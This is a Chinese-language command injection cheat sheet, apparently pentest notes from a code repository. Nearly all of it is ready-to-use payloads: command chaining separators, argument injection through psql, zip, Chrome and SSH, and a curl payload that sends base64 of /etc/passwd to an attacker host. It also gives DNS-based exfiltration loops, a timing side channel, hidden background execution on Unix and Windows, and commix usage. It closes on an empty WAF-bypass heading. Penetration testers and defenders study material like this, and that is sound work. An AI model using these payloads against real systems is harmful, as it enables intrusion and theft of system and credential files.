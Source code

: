 # 命令注入漏洞

链接命令

```bash
command1; command2
command1 && command2
command1 || command2
command1 & command2
command1 | command2

# Unix和Windows系统均支持
ls||id; ls ||id; ls|| id; ls || id
ls|id; ls |id; ls| id; ls | id
ls&&id; ls &&id; ls&& id; ls && id
ls&id; ls &id; ls& id; ls & id
ls %0A id

# 仅Unix系统支持
`ls`
$(ls)
ls; id
ls${LS_COLORS:10:1}${IFS}id
```

## 1.参数注入

SQL
```bash
psql -o'|命令'
psql -o'|id>/tmp/wolf'
```

ZIP
```bash
zip -T -m -TT '命令 #' 自定义压缩包名.zip 任意现有文件
zip -T -m -TT 'id> /tmp/whoami #' wolf.zip wolf.txt
```

Chrome
```bash
chrome '--gpu-launcher="id>/tmp/foo"'
```

SSH
```bash
ssh '-oProxyCommand="touch /tmp/foo"' foo@foo
```

## 2.数据泄露

常见有效负载
```bash
;`curl%20--data%20%22data=$(base64%20/etc/passwd)%22%20https://攻击者主机`
```

定时攻击
```bash
/usr/bin/time sh -c 'if [ $(whoami | cut -c 1) == "r" ]; then sleep 5; fi'
```

DNS数巨泄露
```bash
for i in $(id) ; do host "$i.DNS主机地址 "; done
$(host $(cat /etc/passwd | head -n1 | sed 's/[ ,]/-/g' | tr -d '.').DNS主机地址)
```

## 3.命令置入后台

类Unix
```bash
python long_running_script.py > /dev/null 2>&1 &
```

Windows
```bash
Start-Process -FilePath "powershell" -ArgumentList "-Command `"& { .\long_running_script.ps1 > $null }`"" -WindowStyle Hidden
start /B cmd /C "long_running_script.bat > NUL 2>&1"
```

## 4.伪终端shell

Commix
```bash
commix --url="WEB应用程序URL " --cookie="Cookie值" --data="请求参数"
键入: y/yes
```

# WAF绕过
